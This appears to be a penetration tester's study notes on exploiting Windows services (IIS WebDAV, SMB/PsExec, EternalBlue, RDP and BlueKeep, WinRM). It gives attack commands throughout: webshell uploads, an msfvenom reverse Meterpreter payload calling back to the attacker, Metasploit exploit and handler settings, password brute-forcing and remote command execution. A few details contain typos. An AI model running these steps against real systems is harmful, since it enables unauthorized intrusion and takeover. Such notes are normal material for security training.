 ## Frequently Exploited Windows Services
- IIS: 80
- WebDAV: 80/443
- SMB/CIFS: 445
- RDP: 3389
- WinRM: 5996/443

## Microsoft IIS WebDAV
- **IIS**
	- Internet Information Services
	- Web Server developed by Microsoft
	- Prts 80/443
	- Static and dynamic pages ASP.NET and PHP
	- Supported files:
		- asp
		- aspx
		- config
		- php
- **WebDAV**
	- Web-based Distributed Authoring and Versioning
	- Collaboratively edit and manage files on remote web server
	- runs of top of IIS
	- need creds to access it

### Exploitation
- Identify WebDAV
	- Can be done with #tools/multi/nmap
- Brute force credentials
	- Use Hydra ![[Hydra#WebDAV]]
- upload malicious files
	- Test files that can be uploaded with #tools/exploit/web/davtest
		```
		# davtest -url http://<ip_addr>/webdav -auth <username>:<password>
		```
	- Find the appropriate webshell from `/usr/share/webshells`
	- Upload the malicious file with #tools/exploit/web/cadaver
		```
		# cadaver http://<ip_addr>/webdav
		> put /usr/share/webshells/<selected_shell>
		```

### Exploitation w/ Metasploit
- Run #tools/multi/nmap and confirm that the IIS server is running and that there is WebDAV present
- Using #tools/payloads/msfvenom to generate a payload
	```
	# msfvenom -p windows/meterpreter/reverse_txp LHOST=<your_ip> LPORT=<port> -f asp > shell.asp
	```
	> If you don't know the architecture of target machine use a 32 bit payload as it runs on both 32 and 64 bit machine
- Upload the payload 
	- using #tools/exploit/web/cadaver  OR
	- Start #tools/multi/msfconsole 
		```
		> search iis upload
		> use exploit/windows/iis/iis_webdav_upload_asp
		> set LHOST
		> set LPORT
		> set httpusername
		> set httppassword
		> set RHOSTS
		> set RPORT	
		```
- Start #tools/multi/msfconsole 
	```
	> use multi/handler
	> set payload windows/meterpreter/reverse_tcp # same as the one that you used to create the payload
	> set LHOST <your_ip>
	> set LPORT <port>
	> run
	```

## SMB w/ PsExec
- **SMB**
	- Server Message Block
	- Port 445 and 139
	- Allows communication between machines in LAN
	- SAMBA is opensource linux implementation of SMB (allows to exchange files between Windows and Linux)
	- Authentication
		- User: uname and pwd to access a share
		- Share: needs a pwd to access a restricted share
- **PsExec**
	- Lightweight Telnet that allows to execute processes on remote windows systems using any user's creds
	- Its authentication is performed via SMB
	- You need to identify legitimate users and their passwords/hashes
		- SMB brute force or other tools

### Exploitation
- Run #tools/multi/nmap scan 
- For brute forcing credentials, start #tools/multi/msfconsole 
	```
	> search smb_login
	> use auxiliary/scanner/smb/smb_login
	> set user/file, pass/file, rhosts, verbose  	
	```
- Final exploit
	- Using #tools/exploit/psexec_py:
		```
		# psexec.py user@<ip_addr> <command> 
		```
		- You can simply provide `cmd.exe` as command
	- Using #tools/multi/msfconsole :
		```
		> search psexec
		> use exploit/windows/smb/psexec
		> set options
		```
		> Can be detected by AVs

## MS17-010 SMB - EternalBlue
- Allows attackers to execute remote arbitrary code
- Provides elevated access
#### Exploitaiton
- Run #tools/multi/nmap scan with `--script=smb-vuln-ms17-010` 
- Start #tools/exploit/smb/AutoExploit by selecting the script according to the target OS version
	```
	# shellcode/shell_prep.sh
	Y
	<your_ip>
	<your_port>
	<your_port>
	1
	1
	```
- Start `nc -nlvp <your_port>`
- Start the exploit script based on target OS
	```
	python3 eternalblue_exploit[ ].py <target_ip> shellcode/sc_x64.bin
	```
 - OR using #tools/multi/msfconsole , search for `eternalblue`
	 - use `exploit/windows/smb/ms17_010_eternalblue` and set the options
	 - Run

## RDP
- Proprietary GUI remote access
- Port 3389
- Requires authentication w/ password in clear-text

### Exploitation
*Run #tools/multi/nmap and look for RDP related ports*
- Use #tools/multi/msfconsole to verify RDP port
	```
	use auxiliary/scanner/rdp/rdp_scanner
	set rhosts, rport
	```
- Use #tools/bruteforce/hydra to brute force username/password (*Make sure you are not too fast as it might crash the target machine*)	
	- ![[Hydra#RDP]]
- Use #tools/utility/xfreerdp to access the machine via RDP:
	```
	# xfreerdp /u:<username> /p:<passwor> /v:<ip_addr>:<port>
	```

## CVE-2019-0708 - BlueKeep
- RDP vulnerability aloowing remote code exection
- Acess chunk of kernel memory at the system level without authentication
- Needs RDP to be enabled on target machine
- This causes target machine to crash

### Exploitation
*Run an #tools/multi/nmap to look for any port having RDP open*
- Go to #tools/multi/msfconsole and look for `cve_2019_0708_bluekeep`
	- Set the options and run it
	- This will tell if the target machine is vulnerable to this exploit
- Look for `cve_2019_0708_bluekeep_rce` (*this works only on 64 bit architectures*):
	- Set the options 
	- Change the `targets` based on the the target's architecture
	- Run

## WinRM
- Windows Remote Management over HTTP(S)
- Ports 5985 and 5986
- Not configured to run by default
- Does not get detected by normal nmap scan, use `-p-`

### Exploitation
*Run a #tools/multi/nmap scan with `-p5985` because it is not scanned by default*
- Run #tools/exploit/multi/crackmapexec to brute-force password
	```
	# crackmapexec winrm <ip_addr> -u <username> -p <wordlist> 
	```
- Use #tools/exploit/multi/crackmapexec to run commands:
	```
	# crackmapexec winrm <ip_addr> -u <username> -p <password> -x <command>
	```
- Use #tools/exploit/windows/evil-winrm_rb to gain reverse shell
	```
	# evil-winrm.rb -u <username> -p <password> -i <ip_addr>
	```
- With #tools/multi/msfconsole search for `winrm_script_exec`
	- Default payload is 32 bit but can be changed to 64
	- set the options and `FORCE_VPS` to True
	- Keep trying as it might take multiple attempts